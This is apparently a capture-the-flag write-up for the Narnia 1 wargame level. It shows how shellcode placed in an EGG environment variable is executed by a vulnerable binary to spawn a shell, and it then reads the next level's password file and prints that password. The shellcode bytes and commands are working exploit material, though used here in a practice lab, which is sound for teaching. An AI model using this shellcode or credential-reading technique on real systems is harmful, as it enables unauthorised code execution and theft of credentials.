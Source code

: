 # Solution for Narnia 1

If we see the C code, it looks for an environment variable called EGG, and executes whatever is inside the variable, treating it as shellcode, if that environment variable exists. 
So let's give them what they want. Shellcode in Env variable called EGG
To do this, we simply

```text
narnia1@narnia:/narnia$ export EGG=$(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

We can check it on the byte level to ensure its right, as python sometimes messes things up 

```text
narnia1@narnia:/narnia$ echo $EGG | xxd
00000000: 31c0 5068 6e2f 7368 682f 2f62 6989 e399  1.Phn/shh//bi...
00000010: 5253 89e1 b00b cd80 0a                   RS.......
```

## Final Exploit

Now we just execute the program, and it will find $EGG and execute our shellcode
```text
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ ls
narnia0  narnia0.c  narnia1  narnia1.c  narnia2  narnia2.c  narnia3  narnia3.c  narnia4  narnia4.c  narnia5  narnia5.c  narnia6  narnia6.c  narnia7  narnia7.c  narnia8  narnia8.c
```

Perfect! We now get the password for the next level
```text
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

The password for narnia2 is 
```text
nairiepecu
```



